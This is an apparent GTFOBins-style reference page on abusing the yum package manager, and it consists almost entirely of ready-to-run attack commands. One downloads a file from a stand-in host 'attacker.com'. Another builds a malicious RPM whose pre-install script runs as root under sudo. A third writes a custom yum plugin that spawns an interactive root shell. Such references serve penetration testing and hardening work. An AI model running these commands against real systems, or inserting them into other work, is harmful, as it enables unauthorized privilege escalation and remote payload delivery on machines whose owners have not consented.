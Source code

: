 # GTFOBin: yum

## File download

It can download remote files.

Fetch a remote file via HTTP GET request. The file on the remote host must have an extension of `.rpm`, the content does not have to be an RPM file. The file will be downloaded to a randomly created directory in `/var/tmp`, for example `/var/tmp/yum-root-cR0O4h/`.

```
RHOST=attacker.com
RFILE=file_to_get.rpm
yum install http://$RHOST/$RFILE
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

It runs commands using a specially crafted RPM package. Generate it with fpm and upload it to the target.

```
TF=$(mktemp -d)
echo 'id' > $TF/x.sh
fpm -n x -s dir -t rpm -a all --before-install $TF/x.sh $TF

```

```
sudo yum localinstall -y x-1.0-1.noarch.rpm
```

Spawn interactive root shell by loading a custom plugin.

```
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```